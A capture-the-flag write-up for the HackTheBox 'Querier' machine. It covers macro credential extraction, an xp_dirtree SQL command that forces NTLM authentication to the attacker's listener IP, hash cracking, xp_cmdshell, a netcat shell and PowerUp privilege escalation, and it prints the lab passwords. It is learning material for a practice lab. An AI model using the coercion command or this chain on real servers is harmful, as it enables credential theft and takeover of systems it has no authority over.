# Querier -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Querier (HackTheBox)
**Author:** dsec
**Date:** 2024-05-26

---

## TL;DR

### Found MSSQL creds in an Excel macro via olevba, used xp_dirtree to capture an NTLMv2 hash, cracked it, then used PowerUp.ps1 to find admin credentials for a full compromise.

---

## Target info

- Services discovered: `135/tcp`, `139/tcp`, `445/tcp (smb)`, `1433/tcp (mssql)`

---

## Enumeration









Extracted macro from `.xlsm` file with olevba, found creds:



- `reporting:PcwTWTHRwryjc$c6`

---

## Exploitation





Used `xp_dirtree` to force NTLM authentication back to my listener:

```sql
EXEC xp_dirtree '\\10.10.14.169\test', 1, 1
```



Captured NTLMv2 hash for `mssql-svc`. Cracked with hashcat:



- `corporate568`

Logged back into MSSQL with the new creds and enabled `xp_cmdshell`:





Used `nc64.exe` to get a shell:



- Potato attack **failed**.

---

## Privilege escalation

Ran `PowerUp.ps1`:



- Found: `Administrator:MyUnclesAreMarioAndLuigi!!1!`

Connected via evil-winrm:



---

## Lessons & takeaways

- `nxc smb` showed nothing for a null session, but `smbclient` did -- always try both
- Use `olevba` to extract macro info from Excel workbooks (`.xlsm`)
- `xp_dirtree` is great for capturing NTLMv2 hashes when you have MSSQL access
- `PowerUp.ps1` can reveal stored credentials and misconfigurations
